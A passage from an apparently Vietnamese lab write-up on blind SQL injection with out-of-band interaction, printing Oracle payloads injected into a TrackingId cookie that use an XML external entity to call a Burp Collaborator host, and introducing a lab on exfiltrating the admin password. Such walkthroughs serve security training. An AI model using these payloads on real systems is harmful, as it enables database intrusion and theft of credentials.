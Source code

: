 '||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)—

Trong Burp Collaborator chọn Copy to clipboard và paste vào payload:

'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://w7467kkvimmo457v9ikf2x63yu4lsbg0.oastify.com/"> %remote;]>'),'/l') FROM dual)--

Khi inject payload này vào TrackingId và URL-encoded đợi 1 lúc thì ta sẽ có kết quả như thế này:

![](Images/image68.png)

![](Images/image69.png)

# Lab17: Blind SQL injection with out-of-band data exfiltration

Trong lab này ta có thể SQLi tại TrackingId để thực hiện lấy được password của admin trong Burp Collaborator

## **Root cause:**

Khi có cookie người dùng, máy chủ sẽ thực hiện câu truy vấn như sau:

![](Images/image38.png)

![](Images/image39.png)
